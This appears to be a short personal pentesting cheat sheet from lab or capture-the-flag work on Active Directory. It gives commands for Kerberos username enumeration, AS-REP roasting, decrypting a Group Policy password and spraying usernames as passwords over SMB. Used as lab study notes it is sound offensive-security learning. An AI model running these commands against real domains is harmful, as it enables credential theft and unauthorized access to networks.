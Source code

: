 check if usernames are valid:
```
/opt/kerbrute userenum --dc 10.10.10.248 -d intelligence.htb users.txt
```
- reformat with vim command `:%s/^.*VALID USERNAME:\s*\(\w\+\)@hutch\.offsec.*$/\1/`
- returns weird hash, use `GetNPUsers.py` instead to get hash

Kerberos, port 88
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>
```

as-rep roast
```
GetNPUsers.py vulnnet-rst.local/ -no-pass -usersfile users.txt
```

decrypting group policy passwords
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

try usernames as passwords:
```
nxc smb 10.129.231.149 -u users.txt -p users.txt --no-bruteforce --continue-on-success
```

try lowercase usernames as passwords:
- `cp users.txt users_lowercase.txt`
- vim command to convert all letters to lowercase
	- `:%s/[A-Z]/\L&/g`
```
nxc smb 10.129.42.194 -u users.txt -p users_lowercase.txt  --no-bruteforce --continue-on-success
```


